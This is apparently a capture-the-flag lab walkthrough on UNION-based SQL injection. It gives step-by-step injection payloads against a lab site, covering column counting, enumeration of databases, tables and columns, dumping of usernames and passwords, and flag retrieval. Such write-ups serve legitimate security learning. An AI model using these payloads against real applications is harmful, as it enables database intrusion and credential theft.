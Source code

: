# UNION Based SQL Injection Walkthrough

## Target URL

**acuhungf.eu1.ctfio.com**

---

## Task 1: Retrieve Article ID 2 by Manipulating the Query

### Attempt 1:

Query used:

```sql
1' and 1=1;--

![Task 1](./Assets/image.png)
```

Result: Did not produce the desired output.

### Attempt 2:

Query used:

```sql
1' UNION SELECT 1,2,3,4;--

![Task 2](./Assets/image%201.png)
```

Result: Displayed content but not the expected output.

### Successful Attempt:

Query used:

```sql
1' UNION SELECT 1,2,3,DATABASE();--

![Task 2](./Assets/image%202.png)
```

Result: Successfully retrieved the current database name.

### Alternative Method:

Query used:

```sql
0' OR id = '2

![Task 2](./Assets/image%203.png)
```

Result: Displayed the desired article ID 2.

![Task 1](./Assets/image.png)

---

## Task 2: Determine the Number of Columns

Query used:

```sql
0' UNION SELECT 1,2,3,4;--
```

Result: Identified the correct number of columns.

![Task 2](./Assets/image%204.png)

---

## Task 3: Retrieve Characters

Query used:

```sql
0' UNION SELECT 1,2,3,'hello';--
```

Result: Verified that character data can be retrieved.

![Task 3](./Assets/image%205.png)

---

## Task 4: Retrieve Current Database Name

Query used:

```sql
0' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the database name.

![Task 4](./Assets/image%206.png)

---

## Task 5: Extract Database Names

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.SCHEMATA;--
```

Result: Extracted all database names.

![Task 5](./Assets/image%207.png)

---

## Task 6: Extract Table Names

Query used:

```sql
0' UNION SELECT 1,2,3,TABLE_NAME FROM information_schema.TABLES;--
```

Result: Retrieved table names but not the expected output.

![Task 6](./Assets/image%208.png)

### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='sqli_two');--
```

Result: Successfully listed all tables in the `sqli_two` database.

![Task 6 - Improved](./Assets/image%209.png)

---

## Task 7: Extract Column Names from 'users' Table

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS;--
```

Result: Retrieved all column names but not the expected output.

![Task 7](./Assets/image%2010.png)

### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_two' AND TABLE_NAME='users');--
```

Result: Successfully retrieved column names for the `users` table.

![Task 7 - Improved](./Assets/image%2011.png)

---

## Task 8: Extract User Credentials

Query used:

```sql
0' UNION SELECT 1,2,username,password FROM users;--
```

Result: Successfully retrieved usernames and passwords.

![Task 8](./Assets/image%2012.png)

---

## Task 9: Extract All Users in One Query

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(CONCAT(username,':',password)) FROM users;--
```

Result: Successfully retrieved all usernames and passwords in a single row.

![Task 9](./Assets/image%2013.png)

---

## Final Task: Retrieve the Flag

Query used:

```sql
0' UNION SELECT 1,2,3,flag FROM flag;--
```

Result: Successfully extracted the flag.

![Final Task](./Assets/image%2014.png)

---

## Summary

This walkthrough demonstrates how to exploit UNION-based SQL Injection step by step, starting from retrieving the number of columns to extracting critical data such as database names, table names, column names, and user credentials. The final task was to extract the flag, successfully completing the lab challenge.

---
